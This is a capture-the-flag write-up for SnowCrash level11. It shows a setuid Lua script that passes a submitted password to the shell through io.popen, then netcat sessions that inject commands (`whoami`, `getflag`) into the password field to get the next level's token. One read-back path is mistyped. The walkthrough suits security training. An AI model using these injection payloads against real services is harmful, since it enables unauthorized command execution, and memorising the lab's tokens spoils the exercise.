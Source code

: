 
-> ls -la

-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua

-> cat level11.lua

(The cat output is in the level11.lua file in this same directory)

As we can see in the following line of the file :

prog = io.popen("echo "..pass.." | sha1sum", "r")

It builds a shell command by pasting the value we send (pass)
after echo, then executes that command.

So let's try !

level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: f05d1d066fb246efe0c6f7d095f909a7a0cf34a0
Erf nope..

level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: echo pop > /tmp/pop
Erf nope..

level11@SnowCrash:~$ cat /tmp/pop              #we can see here that we can indeed make the program execute command for us
echo pop

level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `whoami` > /tmp/pop
Erf nope..

level11@SnowCrash:~$ cat /tmp/popen             # Futhermore it is as flag11 that the command is executed
flag11

level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/pop
Erf nope..

level11@SnowCrash:~$ cat /tmp/pop
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

-> su level12 ..